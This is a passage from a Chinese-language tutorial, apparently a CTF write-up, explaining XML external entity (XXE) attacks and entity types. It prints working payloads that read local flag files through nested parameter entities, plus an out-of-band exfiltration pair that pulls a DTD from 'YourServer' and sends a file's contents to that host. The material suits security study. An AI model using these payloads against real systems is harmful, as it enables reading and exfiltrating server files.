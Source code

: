 一样提示报错：未能找到文件`%flag1;`。说明参数实体一样没有在外部实体的内容中被解析，但如果我们修改成如下的形式

flag.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE flag SYSTEM "flag.dtd">
<root>flag=&flag3;</root>
```

flag.dtd
```xml
<!ENTITY % flag1 "file:///c:/flag.txt">
<!ENTITY % flag2 "<!ENTITY flag3 SYSTEM '%flag1;'>">
%flag2;
```

则可以成功将flag.txt的内容带出来，说明flag1的参数传递是有效的。如果将flag1换成通用实体，则继续报错。可见在DTD部分中参数实体更实用一些。这里可以成功的原因应该是：

- 声明了一个flag1的内部参数实体，内容是一个file协议的字符串
- 声明了一个flag2的内部参数实体，内容是一个实体的定义，其中有参数实体flag1的引用
- 在DTD中引用了flag2实体，声明了flag3这个外部实体
- 在声明flag3时，内容已经被flag1的引用替换成file字符串
- 所以flag3内容就是flag.txt文件中的内容

这里如果我们把flag1改为外部实体，flag3声明的外部实体是我们服务器的url，并且拼接上flag1的引用，则可以把文件的内容带出到url中最终发送到我们的服务器上，这种攻击方式叫OOB（外带数据）：

local.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE flag[
<!ENTITY % remote SYSTEM "http://YourServer/remote.xml">
%remote;]>
<root/>
```

remote.xml
```xml
<!ENTITY % file SYSTEM "file:///flag/hint.txt">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://YourServer:1234/%file;'>">
%init;
%send;
```

##### 实体总结

- 内部实体：实体内容就是定义的字符串本身
- 外部实体：实体的内容是通过协议字符串获得的内容
- 通用实体：也叫一般实体，定义主要是为了在文档正文中引用
- 参数实体：主要是为了在DTD部分引用，为了避免混淆，尽量在DTD中少用通用实体

清楚的利用这些实体才能深刻的理解XXE的攻击原理：

- 外部实体主要用于获取数据
- 通用实体用于在XXE中回显数据
- 参数实体与外部实体结合将获得数据发送出去
- 内部实体可能作为中间的过程步骤存在，如上声明了一个中间的实体定义，目的是为了解析参数实体
